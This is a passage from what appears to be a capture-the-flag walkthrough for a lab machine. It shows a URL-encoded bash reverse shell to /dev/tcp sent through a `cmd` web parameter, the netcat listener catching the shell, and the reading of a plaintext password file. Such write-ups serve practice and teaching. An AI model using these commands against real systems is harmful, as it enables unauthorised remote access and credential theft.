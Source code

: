 ![](/assets/img/kira/9.png)

After the `cmd` parameter we need to enter `bash -c "bash -i >%26 /dev/tcp/192.168.0.106/443 0>%261"`
> **Note:** the `%26` is an `&`, but is `urlencoded`

Now, let's check our `netcat` listener:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.0.106] from (UNKNOWN) [192.168.0.111] 44576
bash: cannot set terminal process group (693): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bassam-aziz:/var/www/html$ 
```

Perfect!! We have a shell as `www-data` on the victim machine! 

## Shell - bassam

- - -

First, we need to enumerate a little bit the files on the machine:

```bash
www-data@bassam-aziz:/var/www/html$ ls -la
total 28
drwxr-xr-x 4 root root 4096 ما 26  2020 .
drwxr-xr-x 3 root root 4096 ما 26  2020 ..
-rw-r--r-- 1 root root  163 ما 26  2020 index.html
-rw-r--r-- 1 root root  287 ما 26  2020 language.php
drwxr-xr-x 2 root root 4096 نو  4  2020 supersecret-for-aziz
-rw-r--r-- 1 root root  747 ما 26  2020 upload.php
drwxrwxrwx 2 root root 4096 ما 20 13:30 uploads
www-data@bassam-aziz:/var/www/html$ 
```

Here we can see a very wierd directory: `supersecret-for-aziz`. Let's access it and list it's content:

```bash
www-data@bassam-aziz:/var/www/html$ cd supersecret-for-aziz
www-data@bassam-aziz:/var/www/html/supersecret-for-aziz$ ls -la
total 12
drwxr-xr-x 2 root root 4096 نو  4  2020 .
drwxr-xr-x 4 root root 4096 ما 26  2020 ..
-rw-r--r-- 1 root root   15 نو  4  2020 bassam-pass.txt
www-data@bassam-aziz:/var/www/html/supersecret-for-aziz$ cat bassam-pass.txt
Password123!@#
www-data@bassam-aziz:/var/www/html/supersecret-for-aziz$ 
```
